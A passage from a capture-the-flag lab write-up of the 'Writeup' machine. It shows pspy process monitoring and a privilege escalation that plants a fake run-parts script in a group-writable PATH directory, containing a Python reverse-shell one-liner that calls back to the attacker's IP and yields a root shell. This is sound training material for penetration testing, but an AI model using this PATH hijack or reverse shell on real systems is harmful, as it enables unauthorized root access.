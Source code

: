 ```
2021/07/27 22:42:01 CMD: UID=0    PID=14214  | /bin/sh -c /root/bin/cleanup.pl >/dev/null 2>&1 
2021/07/27 22:43:01 CMD: UID=0    PID=14215  | /usr/sbin/CRON 
2021/07/27 22:43:01 CMD: UID=0    PID=14216  | /usr/sbin/CRON 
2021/07/27 22:43:01 CMD: UID=0    PID=14217  | /bin/sh -c /root/bin/cleanup.pl >/dev/null 2>&1 
2021/07/27 22:44:01 CMD: UID=0    PID=14218  | /usr/sbin/CRON 
2021/07/27 22:44:01 CMD: UID=0    PID=14219  | /usr/sbin/CRON 
2021/07/27 22:44:01 CMD: UID=0    PID=14220  | /bin/sh -c /root/bin/cleanup.pl >/dev/null 2>&1 
```
But the script was unaccessible and I could not find anything else.

At this point, having literally tried everything I could, I read through 0xdf's writeup to see if I had missed anything till this point. Turns out, I did not check what happens when a new user logs in. Keeping the pspy process running, I fired up a new tab and connected to the machine again. Lo and behold, we find a bash command being executed immediately after the log in.

```
2021/07/27 22:44:04 CMD: UID=0    PID=14221  | sshd: [accepted]
2021/07/27 22:44:04 CMD: UID=102  PID=14222  | sshd: [net]       
2021/07/27 22:44:05 CMD: UID=0    PID=14223  | sshd: jkr [priv]  
2021/07/27 22:44:05 CMD: UID=0    PID=14224  | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new 
2021/07/27 22:44:05 CMD: UID=0    PID=14225  | run-parts --lsbsysinit /etc/update-motd.d 
2021/07/27 22:44:05 CMD: UID=0    PID=14226  | /bin/sh /etc/update-motd.d/10-uname 
```

## **Privilege Escalation**
The run-parts script is run every time a new user logs in. So, if we can modify it to our advantage, we could possible elevate our privilege.

Looking at the command being run, we can see the PATH value where it will search for the run-parts script. Checking the /usr/local/sbin path, we find that we have write-access to it as a member of the "staff" group and place the modified script there.

```
jkr@writeup:~$ ls -ld /usr/local/sbin/
drwx-wsr-x 2 root staff 12288 Apr 19 04:11 /usr/local/sbin/
jkr@writeup:~$ touch /usr/local/sbin/run-parts
jkr@writeup:~$ cat /usr/local/sbin/run-parts
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.173",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

jkr@writeup:~$ ls -l /usr/local/sbin/run-parts
-rw-r--r-- 1 jkr staff 230 Jul 27 22:53 /usr/local/sbin/run-parts
jkr@writeup:~$ chmod +x /usr/local/sbin/run-parts
```
With our script in place and netcat listener running, connecting to the machine again gives us a shell with root privilege.

```
$ nc -nvlp 4444                
listening on [any] 4444 ...
connect to [10.10.16.173] from (UNKNOWN) [10.10.10.138] 54296
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# whoami
root
```
